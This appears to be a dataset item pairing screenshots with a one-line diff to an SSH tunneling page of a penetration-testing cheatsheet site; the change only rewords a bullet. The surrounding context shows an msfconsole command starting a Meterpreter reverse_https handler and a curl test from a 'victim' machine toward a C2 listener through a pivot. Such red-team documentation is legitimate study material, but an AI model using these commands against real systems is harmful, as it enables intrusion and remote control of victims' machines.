

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Network/Connections/SSH_Tunneling.md, in a window 1280 px wide and 900 px high, scrolled down 2183 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update SSH_Tunneling.md

````diff
--- a/docs/Network/Connections/SSH_Tunneling.md
+++ b/docs/Network/Connections/SSH_Tunneling.md
@@ -90,7 +90,7 @@ sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
         #OR
         msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
         ```
-    * Now on the isolated target/victim machine (without direct connection to your C2/Kali) like the DC or ICS.
+    * Now on the [INTERNET_ISOLATED_MACHINE]/target/victim (without direct connection to your C2/Kali) like the DC or ICS.
         * Test
             ```batch
             curl.exe PHISHEDVICTIM01.acme.local:3333
````
